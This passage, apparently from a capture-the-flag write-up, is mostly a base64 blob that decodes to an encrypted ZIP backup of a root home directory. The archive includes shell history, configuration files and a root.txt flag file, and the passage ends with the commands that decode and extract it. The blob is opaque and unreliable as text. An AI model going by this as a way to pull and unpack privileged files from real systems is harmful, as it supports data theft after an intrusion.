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" | base64 -d > backup.zip
7z e backup.zip
```
